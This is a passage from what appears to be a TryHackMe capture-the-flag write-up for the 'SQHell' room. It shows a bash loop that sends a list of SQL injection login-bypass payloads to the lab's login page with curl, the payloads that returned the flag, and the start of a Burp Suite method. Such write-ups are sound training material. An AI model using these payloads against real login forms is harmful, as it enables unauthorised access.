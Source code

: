 Then used a simple loop in BASH to read each line and try it against the website:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s' "$p"; curl -s -d "username=$p" -d "password=" http://sqhell.thm/login | grep THM; printf "\n"
done < bypass.txt

or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #                            <p>THM{FLAG1:<HIDDEN>}</p>
admin'/*
admin' or '1'='1                    <p>THM{FLAG1:<HIDDEN>}</p>
admin' or '1'='1'--
admin' or '1'='1'#                  <p>THM{FLAG1:<HIDDEN>}</p>
admin' or '1'='1'/*
admin'or 1=1 or ''='                <p>THM{FLAG1:<HIDDEN>}</p>
admin' or 1=1
admin' or 1=1--
admin' or 1=1#                      <p>THM{FLAG1:<HIDDEN>}</p>
<SNIP>
```

As you can see quite a few different ones worked.

## Flag 1 - In-Band/Error Based - Burp Method

We can use Burp to intercept the browser request. First make sure you have FoxyProxy on and set to use Burp, then use anything for the username:

![sqhell-foxy-config](../assets/images/2021-06-08-22-40-10.png)
